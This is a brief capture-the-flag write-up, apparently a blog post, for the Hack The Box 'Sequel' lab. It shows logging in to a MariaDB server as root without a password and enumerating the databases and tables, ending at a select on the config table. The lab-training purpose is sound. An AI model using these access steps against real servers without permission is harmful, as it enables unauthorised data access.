 ```yaml
---
layout: post
title: 'HTB | Sequel'
date: 2022-02-27
permalink: /htb/sequel/
---
```


# [](#header-4)Connection

We will use mysql to connect, with the **root** user.
{% highlight plain %}
$ mysql -u root -h 10.129.220.35
{% endhighlight %}

# [](#header-4)Flag

Now we are in, we just need to list all the databases and search for the flag.
{% highlight plain %}
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
MariaDB [(none)]> use htb;

MariaDB [htb]> show tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+

MariaDB [htb]> select * from config;
{% endhighlight %}

